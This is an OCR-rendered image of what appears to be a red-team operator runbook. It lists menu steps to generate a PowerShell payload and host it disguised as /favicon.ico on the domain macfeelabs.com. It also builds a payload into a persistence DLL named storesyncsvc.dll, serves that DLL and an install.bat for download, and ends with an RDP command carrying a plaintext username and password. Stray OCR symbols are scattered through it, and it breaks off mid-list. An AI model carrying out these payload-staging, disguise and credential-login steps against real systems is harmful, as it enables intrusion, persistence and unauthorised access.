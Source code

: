� Attacks > Packages > Windows Executable (S) 
� Listener: HTTP_MDS1 
� Output: Powershell 
� x64: Checked 
� Generate 
� Save to: ~/Desktop/initial.ps1 



� Attacks > Web Drive-By > Host File 
� File: /home/user/Desktop/initial.ps1 
� Local URI: /favicon.ico 
� Local Host: macfeelabs.com 
� Local Port: 80 
� Mime Type: text/plain 
� Launch 
 
Custom 
System 
Persistence 
Payload 
 
� Attacks > Packages > Payload Generator 
� Listener: HTTP_MDS1 
� Output: C 
� x64: Checked 
� Save to: ~/Desktop/persistence/payload.c 
� Open ~/Desktop/persistence/storesyncsvc.cpp 
� Copy contents of payload.c onto line 46 (between the two identifying comments) 
cd ~/Desktop/persistence/ 
x86_64-w64-mingw32-gcc -shared -municode -o storesyncsvc.dll storesyncsvc.cpp 
� Attacks > Web Drive-By > Host File 
� File: /home/user/Desktop/persistence/storesyncsvc.dll 
� Local URI: /test/storesyncsvc.dll 
� Local Host: macfeelabs.com 
� Local Port: 80 
� Mime Type: automatic 
� Launch 
� Attacks > Web Drive-By > Host File 
� File: /home/user/Desktop/persistence/install.bat 
� Local URI: /test/install.bat 
� Local Host: macfeelabs.com 
� Local Port: 80 
� Mime Type: automatic 
� Launch 
 
Initial 
Access - Dev 
 
Bash: 
RCS03 - v1: 
xfreerdp /cert:ignore /v:131.9.3.17 /u:jake.potts /p:1qaz2wsx!QAZ@WSX /d:muggle.lan 
RCS06 - v2: 

